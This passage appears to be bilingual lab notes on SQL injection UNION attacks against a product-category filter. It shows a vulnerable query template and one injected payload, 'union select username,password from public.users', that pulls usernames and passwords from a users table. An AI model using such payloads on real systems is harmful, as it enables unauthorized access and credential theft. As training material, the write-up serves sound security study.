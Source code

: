 ```sql
SELECT * FROM products WHERE category = '' union select username,password from public.users-- -' AND released = 1
```

## Ataque UNION: múltiples valores en una sola columna || SQL injection UNION attack, retrieving multiple values in a single column

- Query SQL

```sql
SELECT * FROM products WHERE category = '$INPUT$' AND released = 1
```

- Explotation

![](/img2/Pasted%20image%2020250708165501.png)
